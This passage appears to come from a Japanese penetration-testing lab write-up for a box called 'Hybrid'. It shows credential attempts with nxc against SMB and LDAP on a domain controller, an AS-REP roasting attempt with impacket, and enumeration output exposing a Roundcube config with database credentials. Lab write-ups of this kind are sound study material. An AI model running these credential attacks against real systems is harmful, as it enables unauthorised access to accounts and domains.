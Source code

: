 ```sh
└─$ nxc smb 10.10.159.53 -u 'peter.turner' -p 'Duckling21' --shares
SMB         10.10.159.53    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hybrid.vl) (signing:True
SMB         10.10.159.53    445    DC01             [-] hybrid.vl\peter.turner:Duckling21 STATUS_LOGON_FAILURE 
```

LDAP
```sh
┌──(kali㉿kali)-[~/…/Vulnhub/Hybrid/10.10.233.118/CVE-2025-49113-exploit]
└─$ nxc ldap 10.10.159.53 -u 'peter.turner' -p 'PeterIstToll!'
LDAP        10.10.159.53    389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hybrid.vl)
LDAP        10.10.159.53    389    DC01             [-] hybrid.vl\peter.turner:PeterIstToll!
```
両方ともダメか

ASREP-Roasting
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid]
└─$ impacket-GetNPUsers hybrid.vl/ -dc-ip 10.10.159.53 -no-pass -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User peter.turner doesn't have UF_DONT_REQUIRE_PREAUTH set

```
ない
KerberostingはそもそもpeterがLDAPへの権限を持っていないので、できない


## mysql
```sh
╔══════════╣ Analyzing Roundcube Files (limit 70)
drwxr-xr-x 13 www-data www-data 4096 Oct  9 09:20 /var/www/roundcube                                                                                                                                                                        
-rw-r--r-- 1 www-data www-data 2682 Jun 18  2023 /var/www/roundcube/config/config.inc.php
$config['db_dsnw'] = 'mysql://roundcube:Duckling21@localhost/roundcubemail';
$config['imap_host'] = 'localhost:143';
$config['support_url'] = '';
$config['des_key'] = 'RpiHQJt10wGZdlMAU9CnBPfc';
$config['plugins'] = ["markasjunk"];
-rwxr-xr-x 1 root root 8451 Jun 18  2023 /var/www/roundcube/plugins/markasjunk/config.inc.php
$config['markasjunk_learning_driver'] = "cmd_learn";
$config['markasjunk_ham_mbox'] = null;
$config['markasjunk_spam_mbox'] = null;
$config['markasjunk_read_spam'] = false;
$config['markasjunk_unread_ham'] = false;
$config['markasjunk_spam_flag'] = 'Junk';
$config['markasjunk_ham_flag'] = 'NonJunk';
$config['markasjunk_debug'] = false;
$config['markasjunk_toolbar'] = true;
$config['markasjunk_move_spam'] = false;
$config['markasjunk_move_ham'] = false;
$config['markasjunk_permanently_remove'] = false;
$config['markasjunk_spam_only'] = false;
// Example: $config['markasjunk_allowed_hosts'] = ['mail1.domain.tld', 'mail2.domain.tld'];
$config['markasjunk_allowed_hosts'] = null;
// Example: $config['markasjunk_host_config'] = [
$config['markasjunk_host_config'] = null;
$config['markasjunk_spam_cmd'] = "salearn %i";
$config['markasjunk_ham_cmd'] = null;
$config['markasjunk_spam_dir'] = null;
$config['markasjunk_ham_dir'] = null;
```